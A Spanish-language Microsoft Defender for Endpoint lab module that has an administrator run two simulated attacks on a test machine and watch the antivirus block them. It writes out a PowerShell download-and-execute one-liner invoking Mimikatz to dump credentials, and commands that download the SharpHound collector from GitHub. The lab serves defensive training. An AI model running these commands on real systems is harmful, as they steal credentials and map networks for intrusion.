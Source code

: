 # Módulo 2: mitigación de amenazas con Microsoft Defender para puntos de conexión

**Nota**: la finalización correcta de esta demostración depende de completar todos los pasos del [documento de requisitos previos](00-prerequisites.md).

## Ataques simulados

En esta tarea, ejecutará dos ataques simulados para explorar las funcionalidades de Microsoft Defender para punto de conexión.

1. Si aún no está en el portal de Microsoft Defender XDR en el explorador, vaya a Microsoft Defender XDR en (<https://security.microsoft.com>) como administrador para el inquilino.

Ejecutará los ataques *simulados* mediante *PowerShell* en *WIN1* para explorar las funcionalidades de Microsoft Defender para punto de conexión.

`Attack 1: Mimikatz - Credential Dumping`

1. En la máquina *WIN1*, escriba **Comando** en la barra de búsqueda y seleccione **Ejecutar como administrador**.

1. Copie y pegue el siguiente comando en el **Administrador: Ventana del símbolo del sistema** y presione **Entrar** para ejecutarlo.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. Debería ver un mensaje indicando *Acceso denegado* y un mensaje emergente de `Microsoft Defender Antivirus, Windows Security Virus and threats protection` mostrando *Amenazas encontradas*.

1. Salga del **Administrador: Ventana del símbolo del sistema** escribiendo **salir** y presionando **Entrar**.

`Attack 2: Bloodhound - Collection`

1. En la máquina *WIN1*, escriba **PowerShell** en la barra de búsqueda, seleccione **Windows PowerShell** y seleccione **Ejecutar como administrador**.

1. Copie y pegue los siguientes comandos en el **Administrador: Ventana de Windows PowerShell** y presione **Entrar** para ejecutarlo.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**Nota:** Se recomienda copiar, pegar y ejecutar los comandos de uno en uno. Abra *Bloc de notas* y copie los comandos en un archivo temporal para hacerlo. El primer comando crea una carpeta denominada *ExternalPayloads* en la misma carpeta donde se encuentra la carpeta *Atomic Red Team*. El segundo comando descarga el archivo *SharpHound.ps1* del repositorio de GitHub *BloodHound* y lo guarda en la carpeta *ExternalPayloads*.

1. Debería ver un mensaje emergente en `Windows Security Virus and threats protection` el que se muestran las *Amenazas encontradas*.

1. Copie y pegue el siguiente comando en el **Administrador: Ventana de Windows PowerShell** y presione **Entrar** para ejecutarlo.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. Si la salida fuera *True*, el archivo de carga de malware no se habrá quitado por el Antivirus de Microsoft Defender. Si la salida fuera *False*, el archivo de carga de malware se habrá quitado por el Antivirus de Microsoft Defender. Use la tecla de dirección hacia arriba para repetir el comando hasta que la salida sea *False*.

## Has completado la demostración
